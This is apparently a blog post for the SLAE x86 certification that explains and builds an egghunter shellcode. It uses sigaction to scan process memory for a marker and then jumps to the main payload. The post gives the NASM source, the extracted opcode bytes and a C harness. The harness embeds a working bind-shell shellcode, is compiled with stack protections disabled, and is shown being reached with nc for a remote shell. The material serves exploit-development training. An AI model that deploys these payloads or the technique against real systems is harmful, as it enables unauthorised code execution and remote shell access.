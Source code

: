 ```yaml
---
title:  "SLAE x86 Assignment 3: Egghunter Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will write an egghunter shellcode for
assignment 3 of the SLAE x86 certification. Let's begin!

## Understanding The Objective ##
So what is an egghunter shellcode? An egghunter shellcode is used in situations where buffer size in a particular location is significantly small, which restricts an attacker to store large shellcodes in said location, in order for it to be executed.

To work around this, the shellcode is placed in another location of the process' VAS (Virtual Address Space) which has adequate space, and a smaller egghunter shellcode is placed in place of where the original shellcode would ideally go. The main purpose of this egghunter shellcode is to locate the original shellcode in memory, and pass execution to it.

So how does the egghunter locate the shellcode? It basically looks for an EGG, which is a unique string used as a sort of marker. So how this works is, we prepend the larger shellcode with the EGG twice, which is what the egghunter will look for in memory. Why twice? This is to prevent the egghunter from running into itself in memory, as the egghunter shellcode will also have those same 4 bytes stored in its code.

Alright, let's have a quick look at how this should work:

```
For eg, this is our shellcode here:

EGGEGGshellcodeshellcodeshellcodeshellcodeshellcode....

Our egghuter:

egghunter(address)
{
  if(val at address == EGGEGG)
    jump address
  else
    address + 1
}
```

This is a very simple representation of how it should work. However, there are a few things that we must understand before we proceed:

- In the VAS of a process, there are multiple branches of memory, which means that if we are searching through the whole VAS, we are bound to run into branches that we do not have the permission to access, which will trigger a segmentation fault (SIGSEGV signal). This will cause our executable to crash. Hence, we will need a process that looks for a particular flag that is triggered when trying to access a restricted memory location, and move on to the next branch in the case that it is in fact restricted. This will prevent us from trying to access locations that we cannot.

- There are three (mainly two functions) methods that we can use to do this, each of which impact the size of the shellcode. [Skape's paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) is a great read for understanding each method in depth.

Alright, now that we have a fair idea of how things should work, let's dive in!

## Using sigaction() ##
This method of writing an egghunter involves using the ```sigaction()``` function to scan through multiple address in memory at the same time, in order to determine which addresses are accessible and which are not. This method is by far the fastest and most efficient implementation of an x86 egghunter. It is the smallest in size too.

```c
#include <signal.h>

      int sigaction(int signum, const struct sigaction *act,
                    struct sigaction *oldact);
```

So when a group of addresses is restricted, a flag is returned. This flag is the ```EFAULT``` flag, and this is what our ```sigaction()``` function will look for. However, we will need to pass an argument through this function directly, which is the ```PAGE_SIZE``` variable, which helps us in setting the location of memory regions, in order to search through the VAS. This basically sets up the page alignment.

This variable will be incremented after each search, in order to switch memory regions when they are restricted. Keep in mind that this function searches through multiple addresses at the same time, looking for 16 bytes of continuous data at each region. This is what makes this method faster than its predecessor, which involves using the ```access()``` function.

So what goes in ```ebx``` and ```edx``` does not concern us. ```ecx``` will take the address to search through. I don't feel the need to write a c prototype for this method, so I will be directly jumping to the assembly code.

### Aseembly time!
We start off by gathering our syscall numbers:
```
#define __NR_sigaction 67
```
Now, we will need the value of our ```PAGE_SIZE``` variable. This is what we will store in ```ecx```, and keep incrementing:
```
$ getconf PAGE_SIZE
4096
```
The ```EFAULT``` flag in hex is ```0xf2```.

Alright, let's start off by setting up our page alignment:
```nasm
global _start:

section .text
_start:

page_size:

 or cx, 0xfff     ;or with 4095
 ```
We ```or``` with 4095 instead of directly storing 4096 so that we can avoid a ```NULL```. Hence, we ```or``` with 4095 and increment by 1.

Now, let's write a piece of code that checks for the ```EFAULT``` flag, and changes memory regions if that flag is returned:
```nasm
 efault_check:

	xor eax, eax         ;clearing eax
	inc ecx
	mov al, 0x43         ;67 --> sigaction
	int 0x80             ;syscall

	cmp al, 0xf2         ;compare the flag returned to EFAULT
	jz page_size         ;If it matches, set page alignment again and search through next region
```
Now let's write the egghunter part of our shellcode:
```nasm
egghunter:

	mov eax, 0xdeadbeef  ;our egg
	mov edi, ecx         ;pointer to memory region
	scasd                ;compare first 4 bytes stored in eax with edi (first egg)
	jnz efault_check     ;if they dont match, continue looking
	scasd                ;compare last 4 bytes stored in eax with edi (second egg)
	jnz efault_check     ;if they dont match, continue looking
	jmp edi              ;if all bytes match, jump to location and execute
```
Remember we prepend our shellcode with the egg twice. This part of the code checks for that.

Now, we will need to write some c code, which includes both our shellcode and our egghunter. Before that. let's extract our egghunter's shellcode:
```
$ objdump -d ./egghunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x66\x81\xc9\xff\x0f\x31\xc0\x41\xb0\x43\xcd\x80\x3c\xf2\x74\xf0\xb8\xef\xbe\xad\xde\x89\xcf\xaf\x75\xeb\xaf\x75\xe8\xff\xe7"
```
Let's paste this in our c code, where the egghunter should go. For our original shellcode, I will be using our previously written bind shell shellcode:
```c
#include<stdio.h>
#include<string.h>

#define EGG "\xef\xbe\xad\xde"

unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f\x31\xc0\x41\xb0\x43\xcd\x80\x3c\xf2\x74\xf0\xb8\xef\xbe\xad\xde\x89\xcf\xaf\x75\xeb\xaf\x75\xe8\xff\xe7";
unsigned char code[]= \
EGG
EGG
"\x31\xc0\x31\xdb\x31\xc9\x99\x6a\x66\x58\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x6a\x66\x58\x43\x52\x66\x68\x11\x5b\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x43\x43\x53\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()
{

	printf("Length of Egg Hunter Shellcode:  %d\n", strlen(egghunter));
	printf("Shellcode length: %d\n", strlen(code));
	int (*ret)()=(int (*)())egghunter;
	ret();
}
```
Alright! let's test this out:
```
Terminal 1:
$ gcc -fno-stack-protector -z execstack shellcode_egghunter.c -o shellcode_egghunter
$ ./shellcode_egghunter
Length of Egg Hunter Shellcode:  31
Shellcode length: 110

Terminal 2:
$ nc -nv 127.0.0.1 4443
(UNKNOWN) [127.0.0.1] 4443 (?) open
uname -a
Linux kali 5.4.0-kali3-686-pae #1 SMP Debian 5.4.13-1kali1 (2020-01-20) i686 GNU/Linux
```
It works! Our egghunter shellcode successfully locates our shellcode in memory and passes execution to it!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
